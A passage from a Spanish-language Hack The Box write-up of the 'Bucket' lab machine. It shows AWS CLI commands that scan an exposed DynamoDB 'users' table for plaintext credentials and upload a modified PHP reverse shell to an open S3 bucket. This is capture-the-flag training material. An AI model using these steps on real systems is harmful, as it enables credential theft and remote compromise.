 > `DynamoDB` es una base de datos no relacional que ofrece rendimiento en milisegundos, es ofrecido por Amazon Web Services... [freecodecamp.org/basics-dynamodb](https://www.freecodecamp.org/news/ultimate-dynamodb-2020-cheatsheet/#the-basics-of-dynamodb)

Probemos a listar las tablas que existan:

```bash
–» aws --endpoint-url=http://s3.bucket.htb dynamodb list-tables
TABLENAMES      Image
TABLENAMES      ImageTag
TABLENAMES      users
```

Okaaaaaa, claramente nos llama la atención la tabla `users`, usando el [parámetro `scan`](https://docs.aws.amazon.com/cli/latest/reference/dynamodb/scan.html) podemos ver su contenido:

```bash
–» aws --endpoint-url=http://s3.bucket.htb dynamodb scan --table-name users
None    3       3
PASSWORD        Management@#1@#
USERNAME        Mgmt
PASSWORD        Welcome123!
USERNAME        Cloudadm
PASSWORD        n2vM-<_K_Q:.Aa2
USERNAME        Sysadm
```

Obtenemos unas credenciales, probablemente para migrar de usuarios estando dentro de la maquina. Por ahora los guardamos:

| Username | Password |
| :------- | :------- |
| Mgmt     | Management@#1@# |
| Cloudadm | Welcome123!     |
| Sysadm   | n2vM-<_K_Q:.Aa2 |

Acá (como casi siempre) estuve full perdido ): Ya que nuestro objetivo inicial es subir un archivo que nos genere una reverse Shell, pero no entendía como debía ser el proceso, así que preferí buscar ayuda. [@TazWake](https://www.hackthebox.eu/profile/49335) me redirecciono y a la vez me enseño a pensar fuera de la caja (como le dice la gente):

El tema es que la subida del archivo está perfecto, en nuestro caso subiremos el famoso [reverse Shell de monkeypentest](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) para que apenas lo ejecutemos obtengamos la Shell. Peeeeero acá es donde toca "testear" o "pensar fuera de la caja", ya que si tenemos un servidor principal (`http://bucket.htb/`) y otro donde está el bucket (`http://s3.bucket.htb/adserver/`) podríamos probar a subir el archivo y revisar el servidor por si también de alguna forma se está guardando por ahí.

Así que si inicialmente subimos el archivo `ejejerev.php`, ya con nuestra IP y PUERTO modificado:

```bash
–» aws --endpoint-url=http://s3.bucket.htb s3 cp ejejerev.php s3://adserver/images/
upload: ./ejejerev.php to s3://adserver/images/ejejerev.php
```

